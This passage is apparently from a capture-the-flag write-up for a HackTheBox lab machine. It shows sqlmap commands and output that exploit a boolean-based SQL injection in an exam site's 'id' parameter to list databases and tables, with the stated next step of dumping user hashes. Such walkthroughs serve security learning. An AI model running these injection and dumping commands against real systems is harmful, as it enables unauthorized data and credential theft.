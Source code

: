 ```
[16:37:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP, PHP 7.2.34
back-end DBMS: MySQL >= 5.0.0
[16:37:56] [INFO] fetched data logged to text files under '/home/werz/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 16:37:56 /2022-09-29/
```

Indeed!, we got it working. Let's dump the content now. `--dbs` for dumping databases



```
sqlmap.py --dbs -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
<
[16:49:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, Apache 2.4.38, PHP
back-end DBMS: MySQL 5
[16:49:52] [INFO] fetching database names
[16:49:52] [INFO] fetching number of databases
[16:49:52] [INFO] resumed: 4
[16:49:52] [INFO] retrieving the length of query output
[16:49:52] [INFO] retrieved: 18
[16:50:04] [INFO] retrieved: information_schema
[16:50:04] [INFO] retrieving the length of query output
[16:50:04] [INFO] retrieved: 7
[16:50:11] [INFO] retrieved: db_sfms
[16:50:11] [INFO] retrieving the length of query output
[16:50:11] [INFO] retrieved: 7
[16:50:18] [INFO] retrieved: erms_db
[16:50:18] [INFO] retrieving the length of query output
[16:50:18] [INFO] retrieved: 11
[16:50:26] [INFO] retrieved: roundcubedb
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
```

I’ll start with `erms_db` database.

```
sqlmap.py --tables -D erms_db -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
<
```
6 tables are here, I'll dump the users table, we may retrieve some hashes.
